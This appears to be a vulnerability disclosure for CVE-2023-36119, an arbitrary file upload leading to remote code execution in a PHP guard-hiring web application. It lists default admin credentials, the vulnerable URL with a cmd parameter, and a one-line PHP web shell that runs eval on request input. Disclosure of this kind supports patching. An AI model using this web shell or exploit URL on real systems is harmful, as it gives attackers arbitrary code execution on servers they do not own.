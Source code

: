 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)
+ CVE ID: CVE-2023-36119

**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/2e775a08-950c-46fa-adb3-42d1cd96c90f)

## POC

https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/aa1de286-20ad-422d-a564-cb2f984af26b

